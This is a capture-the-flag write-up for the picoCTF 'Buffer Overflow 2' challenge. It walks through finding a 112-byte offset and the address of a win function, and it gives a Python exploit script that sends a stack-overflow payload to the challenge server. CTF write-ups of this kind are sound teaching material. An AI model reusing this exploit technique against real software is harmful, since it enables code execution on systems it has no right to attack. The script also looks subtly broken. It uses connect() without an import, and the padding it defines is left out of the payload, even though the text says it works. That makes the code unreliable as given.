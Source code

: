 # Buffer Overflow 2
For this challenge we are given to files: an executable, vuln, and its source in C.</br>
We are also told to control its return address and arguments.</br></br>
Opening the source file, we see the arguments which must be passed to get the flag, 0xCAFEF00D and 0xF00DF00D.<br>
![Vuln Source Code](./vuln.png)</br>

Running the executable, we are asked for an input and it is returned to us. Providing too much input causes a segmentation fault.</br>
![Program output](./overflow.png)

We can use Metasploit and GDB to find out where the buffer overflow occurs.</br>
![Metasploit Create](./metasploit_create.png)</br>
![Metasploit Offset](./offset.png)

We now know it takes 112 characters to cause the buffer overflow.</br>

The next step is to find the memory address of the function we want to jump to, win. Using readelf, we are able to find win at 0x08049296.</br>
![Readelf Output](./win.png)

Here is a python script that connects to the specified server and port and sends the payload to it.</br>
```
#!/bin/env python3

p = connect('saturn.picoctf.net', 62954)
offset = 112
junk = b'A' * offset              #All strings must be converted to byte format
buf = b'\x08\x04\x92\x96'[::-1]   #Addresses on x86 ( Little Endian) are reversed in twos
pad = b'OEBP'                     #Overwrite return address on EBP (4 bytes)
argument1 = b'\xCA\xFE\xF0\x0D'[::-1]
argument2 = b'\xF0\x0D\xF0\x0D'[::-1]
payload = [junk + buf + argument1 + argument2]
payload = b''.join(payload)
p.sendline(payload)
p.interactive()
```

Running it gives us the flag!</br>
![Flag](./flag.png)
